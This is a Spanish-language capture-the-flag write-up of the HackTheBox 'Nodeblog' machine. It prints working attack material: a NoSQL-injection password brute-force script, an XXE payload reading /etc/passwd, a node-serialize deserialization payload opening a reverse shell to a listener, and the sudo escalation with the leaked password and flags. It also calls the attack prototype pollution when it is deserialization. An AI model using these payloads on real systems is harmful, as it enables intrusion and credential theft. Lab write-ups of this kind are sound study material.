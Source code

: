 ```yaml
---
title: HackTheBox - Nodeblog
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'NoSQL Injection', 'Prototype Pollution']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Nodeblog/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Nodeblog Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **SSTI, NoSQL Injection, Prototype Pollution**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina NodeBlog`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/Machines/Nodeblog/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/Machines/Nodeblog/02-versions.png)

    * Se ejecuta **Node.js** en el puerto **5000**

c. Al visitar el sitio web ejecutándose en el puerto **5000** nos encontramos con un panel de autenticación, veremos como se envía la data con **Burp Suite**

```bash
user=admin&password=admin
```

* Al intentar con inyecciones **`SQL`** no funcionan, así que otro método son las inyecciones **`NoSQL`**

    🔷 Si ingresamos un nombre de usuario **válido** nos saldrá un mensaje de **`Invalid Password`**, por lo cual tenemos una forma de enumerar usuarios válidos.

    ![](/assets/images/Machines/Nodeblog/03-burp.png)
    > **`"$ne"`** significa **`no equal`**, por lo que nos loguearemos como el usuario **`admin`** y que no tenga por contraseña **`a`**


    * Creamos un script para dumpear la contraseña de este usuario

        ```python
        import requests
        import string
        from pwn import *

        def brute_force() -> None:
            main_url = "http://<IP>:5000/login"
            characteres = string.ascii_letters + string.digits
            headers = {"Content-Type": "application/json"}
            password=""
            bar_1 = log.progress("Brute Force")
            bar_1.status("Starting Brute Force...")
            bar_2 = log.progress("Password")

            for index in range(26):
                for character in characteres:
                    k = password+character
                    data = '{"user":"admin","password":{"$regex":"^'+k+'.*"}}'
                    r = requests.post(main_url, headers=headers, data=data)
                    bar_1.status(data)

                    if("Invalid Password" not in r.text):
                        password += character
                        bar_2.status(password)
                        break
        if __name__ == "__main__":
            brute_force()
        ------------------------------------------------------------------------
        [◓] Password: IppsecSaysPleaseSubscribe
        ```

d. Una vez nos autenticamos en el servicio, existe un apartado para subir ficheros el cual únicamente acepta **ficheros XML**

![](/assets/images/Machines/Nodeblog/04-error.png)

* Creamos un fichero **XML Malicioso** para comprobar si la página web es vulnerable a **XXE**

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <root>
        <title>Test</title>
        <description>&xxe;</description>
        <markdown>Test</markdown>
    </root>
    ```

    ![](/assets/images/Machines/Nodeblog/05-xxe.png)

* Si queremos leer archivos importantes del servidor, debemos saber en que ruta estamos actualmente, y para eso, lo que haremos es provocar un error

    ![](/assets/images/Machines/Nodeblog/06-error-based.png)
    > La ruta actual es **/opt/blog**

* Los nombres más comúnes de archivos que contenga el código de la página web son **app.js, server.js, main.js**. Iremos testeando con cada uno en el ataque **XXE**

    * La ruta es **`/opt/blog/service.js`**

    ```
    <SNIP>
    const serialize = require('node-serialize')

    function authenticated(c) {
        c = serialize.unserialize(c)
    }
        res.render('articles/index', { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
    <SNIP>
    ```
    > Al anlizar el código filtrado por el **XXE** vemos que se serializa una **deserialización** de las **cookies**

e. El ataque que ejecutaremos es **`Prototype Pollution`**, inyectaremos el código en las cookies

* Usaremos [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) para crear un payload 

    ```bash
    python2 serialize.py 10.10.14.115 4444
    ```

f. En [HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization) vemos un payload al cual sumaremos el output del comando anterior

```py
{"rce":"_$$ND_FUNC$$_function(){payload}()"}
```
> Lo más importante en el payload son los **()** al final, ya que esto hará que nuestro payload se ejecute antes de ser **deserializado**

* El payload final los urlencodeados **echo -n 'payload' | jq -sSr @uri**

g. Nos ponemos en escucha con **nc -lvnp 4444** y el **payload urlencodeado** lo sustituimos en las **cookies** del navegador y recargamos la página

```bash
listening on [any] 4444 ...
connect to [10.10.14.115] from (UNKNOWN) [10.10.11.139] 39540
Connected!
whoami
admin
```

### Escalada de Privilegios 💹

a. Listamos los permisos que tengamos como **`admin`**

```bash
admin@nodeblog:/opt/blog$ sudo -l 
sudo -l
[sudo] password for admin: IppsecSaysPleaseSubscribe

User admin may run the following commands on nodeblog:
    (ALL) ALL
    (ALL : ALL) ALL
```
> Podemos ejecutar cualquier comando como **`root`**

b. Ejecutamos **`sudo su`** y leemos las **`flags`**

```bash
admin@nodeblog:/opt/blog$ sudo su
root@nodeblog:/opt/blog# cat /home/admin/user.txt
c51fb8fabc95d5f33a6906d850a5f997
root@nodeblog:/opt/blog# cat /root/root.txt
b4dbf647e084f886321b196d4b4643fd
```